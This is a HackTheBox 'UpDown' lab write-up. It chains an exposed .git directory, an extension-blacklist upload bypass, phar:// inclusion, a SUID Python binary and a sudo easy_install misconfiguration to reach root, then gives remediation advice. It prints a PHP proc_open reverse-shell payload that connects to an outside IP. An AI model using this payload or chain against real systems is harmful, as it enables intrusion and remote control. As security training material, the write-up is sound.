# UpDown (HackTheBox) Writeup

## Enumeration
#### Nmap Scan Results
Nmap results reveal SSH running on port 22 and an Apache web server running on port 80.


The web application's home page tests if a user-provided website is up or down.


An attempt to inject the `ls` command is detected and the web application returns an error.


The `siteisup.htb` hostname is added to `/etc/hosts` to resolve it to the target's IP address. A `gobuster` directory brute-force scan against the web application then reveals the `dev` directory.


A second `gobuster` scan against the `dev` endpoint finds a `.git` directory.


The `git-dumper` tool is then used to download the entire directory and its contents.


The downloaded repository contains the following files.


Inspection of the `.htaccess` file reveals a required `only4dev` HTTP header to access the web application. The specified HTTP header was not used in past requests, yet access to the web application was not denied. This suggests that the `.git` directory contains files from a different web application.


`ffuf` is used to scan for additional virtual hosts. The tool finds the `dev` hostname.


Direct access to `http://dev.siteisup.htb` returns a 403 Forbidden page.


However, when using the aforementioned HTTP header, the site returns a 200 status code.


To access the web application directly through the browser, the header is added through `Match and Replace` in Burp's Proxy settings.


The web application is then accessed directly. This version contains an upload feature, with the check button used to process the uploaded file.


## Initial Access
Inspection of the `index.php` file previously downloaded using `git-dumper` reveals that the application uses the `page` parameter to include PHP files, appending the `.php` extension to the supplied value. If the parameter is missing or contains a blocked string, `checker.php` is included instead. The application attempts to prevent LFI by filtering certain directory names, but PHP filters are not blocked.


The `checker.php` file contains the application's file upload functionality. Uploaded file extensions are checked against a blacklist that blocks PHP, HTML, Python, Perl and several archive extensions. Uploaded files are saved in the `uploads` directory, inside a subdirectory named using the MD5 hash of the current Unix timestamp.



Since the application validates uploaded files only by their extensions and allows PHP stream wrappers, it is possible to upload a ZIP archive with a `.txt` extension containing a malicious PHP file. The `phar://` wrapper can then be used to access the PHP file inside the archive and execute it through the application's `include()` function.

The `info.php` file is created using the `phpinfo()` function and is added to the `info.txt` ZIP archive, which is then uploaded to the web application.


The `dfunc-bypasser.py` tool is then used, revealing that the application can run code through the `proc_open()` function.


The following PHP code is then saved into the `rev.php` file, using the `proc_open()` function to run a Bash reverse shell one-liner.
```
┌──(shushan㉿shushan)-[~/HTBLabs/UpDown]
└─$ cat rev.php
<?php
$descriptorspec = array(
0 => array('pipe', 'r'), // stdin
1 => array('pipe', 'w'), // stdout
2 => array('pipe', 'a') // stderr
);
$cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.15.99/443 0>&1'";
$process = proc_open($cmd, $descriptorspec, $pipes, null, null);
?>
```

The `rev.txt` ZIP archive is created containing the file and uploaded to the web application.


The reverse shell is executed using the `phar://` PHP stream wrapper.


Initial access is then obtained as the `www-data` user.

## Privilege Escalation
The `find` command is used to search for all files containing the SUID or SGID bits. The `siteisup` binary is found in `/home/developer/dev/`. The file is owned by the `developer` user with the SUID bit set, allowing execution with the privileges of that user.


The `siteisup_test.py` file stored in the same directory reveals that the binary uses the `input()` function, which operates similarly to the `eval()` function. This allows Python code to be injected and executed directly.


The `os` library is imported, and the `system()` function is used to execute `/bin/bash`, spawning a shell as the `developer` user.


A private SSH key is found in the SSH directory of the `developer` user, which is used to obtain an interactive shell through SSH.


The `sudo -l` command reveals that `developer` can execute the `easy_install` binary with `sudo` without providing a password.


To abuse this, the following Python reverse shell script is saved into a `setup.py` file. The file is then transferred to the target.


The `easy_install` binary is executed from the directory hosting the malicious script.


This establishes a reverse shell running as the `root` user.


## Findings & Remediation

### Exposed .Git Directory
#### Description
The `.git` directory is publicly accessible through the main website, allowing unauthenticated users to download the Git repository and recover the source code of the development web application.
#### Impact
An unauthenticated attacker can obtain the development application's source code, revealing internal functionality and security controls. In this case, the exposed repository revealed the file inclusion and upload mechanisms, which were subsequently exploited to achieve remote code execution.
#### Remediation
Remove the `.git` directory from publicly accessible web directories and configure the web server to deny HTTP access to Git metadata. Ensure that Git repositories and development files are stored outside publicly accessible web directories.

### Insufficient File Upload Validation
#### Description
The application's file upload functionality validates uploaded files using a blacklist of file extensions without verifying their actual content. This allows ZIP archives containing PHP files to be uploaded by changing their extension to an allowed one, such as `.txt`.
#### Impact
An attacker can upload files containing malicious PHP code to the server, bypassing the application's extension restrictions. When combined with the application's file inclusion vulnerability, the uploaded PHP code can be executed on the server.
#### Remediation
Implement a strict allowlist of permitted file types and validate uploaded files using their actual content and file signatures rather than relying solely on extensions. Store uploaded files outside the web root and prevent uploaded content from being interpreted or executed as server-side code.
### Local File Inclusion (LFI)
#### Description
The application uses the user-controlled `page` parameter in a PHP `include()` function. Although certain directory names are filtered and the `.php` extension is appended to the supplied value, the validation does not prevent the use of PHP stream wrappers such as `phar://`.
#### Impact
An attacker can use the `phar://` wrapper to include and execute PHP files stored inside uploaded ZIP archives. In this case, the vulnerability was exploited to execute malicious PHP code and obtain a reverse shell as the `www-data` user.
#### Remediation
Avoid passing user-controlled input directly to file inclusion functions. Implement a strict allowlist of permitted page identifiers and map them to predefined PHP files. Reject arbitrary file paths and stream wrappers, and ensure that uploaded files cannot be included or executed by the application.

### Insecure SUID Binary
#### Description
The `siteisup` binary is owned by the `developer` user and has the SUID bit enabled. The binary executes Python code that uses the `input()` function, which operates similarly to `eval()` and allows user-supplied Python expressions to be evaluated.
#### Impact
A local attacker can inject Python code through the binary and execute commands with the privileges of the `developer` user. In this case, the vulnerability allowed privilege escalation from `www-data` to `developer`.
#### Remediation
Remove the SUID bit from the binary unless it is strictly required. Replace unsafe evaluation of user input with secure input handling, such as `raw_input()` in Python 2 or `input()` in Python 3, and ensure that user-controlled input is never evaluated as executable code.

### Sudo Misconfiguration
#### Description
The `developer` user is permitted to execute the `easy_install` binary with `sudo` without providing a password. The binary can execute Python code from a `setup.py` file during package installation.
#### Impact
A local attacker with access to the `developer` account can create a malicious `setup.py` file and execute it through `easy_install` with root privileges, resulting in full system compromise.
#### Remediation
Remove the `easy_install` binary from the user's sudo permissions. Restrict privileged command execution to explicitly required, trusted commands that do not allow arbitrary code execution, and apply the principle of least privilege when configuring sudo rules.

